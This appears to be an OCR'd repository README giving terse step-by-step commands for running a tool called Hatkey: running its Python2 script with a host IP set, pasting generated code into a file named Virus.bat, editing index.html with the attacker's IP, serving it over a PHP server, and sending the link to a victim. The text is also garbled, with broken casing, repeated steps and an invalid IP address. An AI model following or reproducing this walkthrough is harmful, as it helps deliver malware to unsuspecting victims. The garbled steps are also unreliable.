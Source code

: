 
USER CMD 
          Cd Hatkey.Zip
          ls
          cd Hatkey.zip
          ls
          Cd Hatkey
          ls
          Python2 Hatkey.Py
          
          SHOW
          Set Host Ip 
          Run
          Copy Code
          
          New Sission
          ls 
          Cd Php
          ls
          Nano Virus.bat
          Paste 
          Ctrl X
          Y
          Enter
          Nano Index Html 
          Scroll Down
          Set Your Ip 100.56.32.6767
          Ctrl X 
          Y
          Php -S 100.56.32.6767
          Enter
          Send Link To Victim
          You Can  Also Search Your Link Directly In WeB 
          
